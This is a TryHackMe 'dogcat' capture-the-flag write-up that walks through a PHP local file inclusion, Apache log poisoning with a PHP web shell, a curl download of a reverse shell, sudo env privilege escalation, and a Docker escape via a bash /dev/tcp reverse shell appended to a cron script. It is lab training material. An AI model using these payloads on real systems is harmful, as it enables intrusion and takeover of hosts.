 ```yaml
---
title : "TryHackMe: Dogcat WriteUp"
author : Seif-Allah
description : "TryHackMe: WriteUp for the 'dogcat' room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,dogcat,Medium,CTF]
image : /assets/images/writeups/thm/anonymous/dogcat.png
---
```

Link : [dogcat room](https://tryhackme.com/room/dogcat)

Welcome, Welcome, Welcome and welcome ! 

### Introduction 
After finishing [lfi basics room](), and learning some new lfi stuff, I chose this room to practice my new skill, and I absolutely recommend it! 

### Enumeration

- - -
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```
Nothing fancy here, there's a web server running on port 80, let's check it! 

![homepage](/assets/thm/dogcat/homepage.png)

Basically, it's a web app that choose randomly a cat or a dog image based on user choice (images are stored inside a dog and cat folders - look at the source). 

The user choice (cat | dog) are passed to the server through the *view* variable (look at the url), so what if we enter something other than dog or cat ? for example *ls*
- - -
```html
Sorry, only dogs or cats are allowed.
```
- - -
So only dogs or cats allowed ? lets try *dog;ls* ?
- - -
```html 
Warning: include(dog;ls.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog;ls.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
humm ! so there's an include function running inside the */var/www/html/index.php* file that failed to open *days;ls.php* file. 

I think it's time for some [lfi](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi) now ! 

First things first, I used the null byte character : %00
The result was : 
- - -
```
Warning: include(): Failed opening 'dog;ls' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
so we get rid of the first warning which means that :
- the program concatenate .php extension at the end of the input unless it's dog or cat.

Ok, let's *directory traversal* : 
- - -
```html
“/?view=php://filter/read=convert.base64-encode/resource=./dog/../index”
Result after decoding : 

<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
         <!-- the site checks if ext variable is set, if not it assigns it .php   -->
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
html comment is my explanation of the code.


### LFI to RCE via controlled log file 
Like mentioned [here](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi), I did a request to the server (in our case Apache) and include the log file (/var/log/apache2/access.log&ext). Reading the log file, it looks like we can insert a php script inside the user agent header since it's not manipulated(10.4.14.245 - - [14/Nov/2020:17:13:34 +0000] "GET / HTTP/1.1" 200 537 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.4.14.245 -), so I inserted this code : 
- - -
```php
<?php system($_GET['cmd']);?>
```
- - -
and then started a web server on my local host to host a reverse shell file and used wget command to save it inside a temporary file to finally get a reverse shell ! 
- - -
```
/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl http://MY-IP:80/reverse.php > /tmp/reverse.php
```
- - -
After that, I used chmod to make it executable and started a listener in my local host and running the file from the browser
BOOM!! I got the reverse shell ! 
- - -
```bash
root@kali:~/Documents/thm/startup# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.4.14.245] from (UNKNOWN) [10.10.129.131] 46518
Linux 571f0aa7aca9 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 18:05:41 up 55 min,  0 users,  load average: 0.23, 0.11, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Spawning a tty shell using */bin/bash -i* command, and looking at the user directory we can find the 2nd flag. 
The first flag was inside the */var/www/html/* directory. (We could retrieve it by running view=flag in the url, anyway)
Now we need to escalate our privileges.
### PrivEsc
Running sudo -l command, it looks like we can *env* as root, checking [gtfobins] as always and yeah we can escalate our privileges to root by running :
*sudo env /bin/sh*, easy!
We can now retrieve the 3rd flag from root directory. 

But now !! THE FUN BEGIN 

### Breaking DOCKER LOCKER 
The 4th flag was really hard to get for me, I didn't face any of these kinda flags before but it was kinda fun to get it ! 

By looking at this [article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) from the famous Vickie Lie, and the docker tag from the room cover, I check /proc/1/cgroup file to check if we are inside a docker container or not. 

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the find / -type f -name *.sh command because nothing of the tricks found helped me, the first result is the file /opt/backups/backup.sh, hum interesting, looking at its contents : 
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
From what it looks like, basically it's a cronjob that backup the container, and since it's writeable, let's add a reverse shell, start a listener and wait for it to be executed.
- - -
```
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1'" >> backup.sh
```
- - -
After few minutes we get a reverse shell from the parent host and we can easily get flag4.txt ! 

### Final thoughts 
This room rocks ! I absolutely recommend for all beginners like me ! 
Huge thanks to [jammy](https://tryhackme.com/p/jammy) ! 
